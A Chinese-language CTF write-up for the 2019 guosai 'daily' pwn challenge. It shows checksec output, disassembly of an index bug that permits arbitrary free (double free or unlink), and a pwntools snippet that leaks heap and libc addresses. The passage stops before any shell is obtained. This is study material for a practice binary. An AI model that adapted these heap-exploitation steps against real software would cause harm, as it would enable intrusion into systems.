 ```
liwc@ubuntu:~/pwn/2019_guosai/daily$ checksec daily
[*] '/home/liwc/pwn/2019_guosai/daily/daily'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

没有开启PIE，但其余全开，RELRO开启。

### 分析

#### add

会根据输入的size malloc一个chunk，将chunk总数量num存储在bss段上，并且每次将chunk的size和指针都存在bss端上。

#### delete

如果bss段相应的指针不为null，则free掉，并置为null，同时将size清零，num自减1。但是这里index存在漏洞。free的指针是用index * 16 + 0x602068计算得到的，所以如果在堆上伪造fake chunk和指向fake chunk的指针，就可以实现任意地址free，也就可以实现double free（或者unlink）。

```
.text:0000000000400C24                 mov     eax, [rbp+index]
.text:0000000000400C27                 cdqe
.text:0000000000400C29                 shl     rax, 4
.text:0000000000400C2D                 add     rax, 602068h
.text:0000000000400C33                 mov     rax, [rax]
.text:0000000000400C36                 mov     rdi, rax        ; ptr
.text:0000000000400C39                 call    free
```

#### upgrade

根据存储的size向bss段中写。

### 利用

#### leak libc

首先通过正常方法leak出libc：即放入unsorted bin后，再申请出来。

```python
add(0x60, 'a' * 0x10) # 0
add(0x80, "b" * 0x10) # 1
add(0x10, "c" * 0x10) # 2 
add(0x80, "d" * 0x10) # 3
add(0x10, "e" * 0x10) # 4

free(1)
free(3)

add(0x80, "b" * 0x8) # 1
add(0x80, "d" * 0x8) # 3


show()

heap_addr = u64(p.recvuntil("2 :", drop=True).split("bbbbbbbb")[-1].ljust(8, "\x00")) - (0xd0 + 0x50)
libc_addr = u64(p.recvuntil("\x7f")[-6:].ljust(8, "\x00"))
libc.address = libc_addr - 0x3c4b78
print hex(libc.address)
print hex(heap_addr)
```
